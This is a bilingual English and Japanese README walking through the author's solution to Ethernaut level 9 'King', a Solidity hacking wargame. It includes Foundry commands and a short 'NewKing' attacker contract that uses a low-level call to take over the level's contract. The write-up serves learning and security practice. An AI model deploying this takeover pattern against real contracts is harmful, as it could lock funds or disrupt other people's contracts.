



<!-- @format -->

# English README 　[Jump to Japanese Version](#japanese)

# Ethernaut Solutions

- The Ethernaut is a Web3/Solidity-based coding wargame, played in the Ethereum Virtual Machine.
- Each level is a smart contract that needs to be 'hacked'.

Here are the writeups of my solutions levels I cleared.
** I will not recommend you to look at solutions I wrote. Solve it yourself for your learning 😛 **

# How to use Ethernaut

- To use ethernaut, you need to use the console from the developper tool of your browser in the first place.
- If your confortable with Foundry and Methods call using `cast` and `send`, you can also solve problem from Foundry framework.
- If you are not confortable yet with ABI, then it is a great way to learn about it and how to call any contract by external calls.
- In higher difficulty levels, you will need to wrote smart contracts and interfaces to hack some smart contract externally for clearing levels.

## Ethernaut 9. King

The goal is to take control of the contract.

- The solution here is to send an amount of ether superior to the prize to the contract. Here is an easy explanation:
- To do so we can only use the `call` function.
- `transfer` and `send` can not be used as when calling the `receive` function of the contract, it will revert the transaction due to the gas cap of 2300.
- `call` function does not have this gas cap and can be used to send ether to the contract.

<br/>
<p align="center">

</p>
<br/>

1. If we look at the `receive()` function there is a condition that the amount of ether sent should be superior or equal to the `prize`. So let's grab the `prize` value.

- I used foundry to call the `prize()` function of the contract. Here is the command:
- replace `0xaaaaaaaaaaaa` with the contract instance address of yours, and also environment variables.

```bash
cast call 0xaaaaaaaaaaaa "prize()" --private-key $PRIVATE_KEY_TESTNET --rpc-url $alchemy_RPC_sepolia
```

2. Decode the result of the previous command:

```bash
cast --to-base 0x00000000000000000000000000000000000000000000000000038d7ea4c68000 dec
```

3. Decoded result is : `1000000000000000` wei so 0,001 ether.

- Next after sending the amount of ether, `payable(king).transfer(msg.value);` should be triggered.
- But this is this line is the actual problem. It will revert dut to the gas cap of 2300. So we need to use the `call` function to send the ether.

4. Let's write a contract using the `call` function to send eth, to the contract instance address initiated on Ethernaut.

- Copy the below into Remix.
- Deploy it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract NewKing {

        function Attack(address _to) public payable {
        // Check if the function call includes Ether
        require(msg.value >  0, "No Ether provided for transfer");

        // Transfer the Ether from the sender to the specified address
        // _to.transfer(msg.value); -> can't use it because capped in gas, same for send
        (bool sent, ) = _to.call{value: msg.value}("");
        require(sent, "Failed to send value!");
        }
}
```

5. `Attack` takes as input the contract instance address made on Ethernaut. `Value` also needs to be filled with the amount of ether to send: `1000000000000000`.

<br/>
<p align="center">

</p>
<br/>

6. Submit result to ethernaut.

Level is completed.

<br/>
<p align="center">

</p>
<br/>

<a name="japanese"></a>

# 日本語版の README

# Ethernaut の解決策

- Ethernaut は、Web3/Solidity ベースのコーディングウォーゲームで、Ethereum Virtual Machine (EVM) でプレイされます。
- 各レベルはハッキングする必要があるスマートコントラクトです。

これはクリアしたレベルの解決策です。
**解決策を見ることをお勧めしません。学習のために自分で解決してください 😛 **

# Ethernaut の使用方法

- Ethernaut を使用するには、まずブラウザの開発者ツールからコンソールを使用する必要があります。
- Foundry と cast および send を使用した方法の呼び出しに慣れている場合、Foundry フレームワークから問題を解決することもできます。
- まだ ABI に慣れていない場合、それを使用して任意のコントラクトを外部呼び出しで呼び出す方法について学び、理解するのに最適な方法です。
- より高難度のレベルでは、スマートコントラクトとインターフェースを作成して、いくつかのスマートコントラクトを外部からハッキングするために解レベルをクリアする必要があります。

## Ethernaut 9. King

コントラクトの管理権を握ることが目標です。

- ここでの解決策は、賞金よりも多いエーテルをコントラクトに送ることです。簡単な説明は以下の通りです：
- これを行うには、`call`関数のみを使用できます。
- `transfer`や`send`は使用できません。コントラクトの`receive`関数を呼び出すと、2300 のガス上限のためにトランザクションがリバートされるからです。
- `call`関数にはこのガス上限がなく、エーテルをコントラクトに送るために使用できます。

<br/>
<p align="center">

</p>
<br/>

1. `receive()`関数を見ると、送られるエーテルの量が`prize`よりも多くなければならないという条件があります。したがって、`prize`の値を取得しましょう。

- `prize()`関数を呼び出すために foundry を使用しました。こちらがコマンドです：
- `0xaaaaaaaaaaaa`を自分のコントラクトインスタンスアドレスに置き換え、環境変数も設定してください。

```bash
cast call 0xaaaaaaaaaaaa "prize()" --private-key $PRIVATE_KEY_TESTNET --rpc-url $alchemy_RPC_sepolia
```

2. 前のコマンドの結果をデコードします：

```bash
cast --to-base 0x00000000000000000000000000000000000000000000000000038d7ea4c68000 dec
```

- デコードした結果は：`1000000000000000` wei、つまり 0.001Eth です。

- 次に、エーテルの送金後に`payable(king).transfer(msg.value);`がトリガーされるはずです。
- しかし、この行が実際の問題です。`2300`のガスキャップのためにリバートされます。したがって、Eth を送るために`call`関数を使用する必要があります。

3. `call`関数を使用して eth を送るコントラクトを書いてみましょう。Ethernaut で初期化されたコントラクトインスタンスのアドレスに対してです。

- 以下を Remix にコピーしてください。
- デプロイしてください。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract NewKing {

        function Attack(address _to) public payable {
        // 関数呼び出しにEtherが含まれているかを確認
        require(msg.value >  0, "No Ether provided for transfer");

        // 送信者から指定されたアドレスにEtherを転送
        // _to.transfer(msg.value); -> ガスがキャップされているため使用できない、sendも同様
        (bool sent, ) = _to.call{value: msg.value}("");
        require(sent, "Failed to send value!");
        }
}

```

4. `Attack`は Ethernaut 上で作成されたコントラクトインスタンスのアドレスを入力として取ります。送信するエーテルの量、`1000000000000000`も`Value`に入力する必要があります。

<br/>
<p align="center">

</p>
<br/>

5. 結果を ethernaut に提出します。

- レベルが完了。

<br/>
<p align="center">

</p>
<br/>
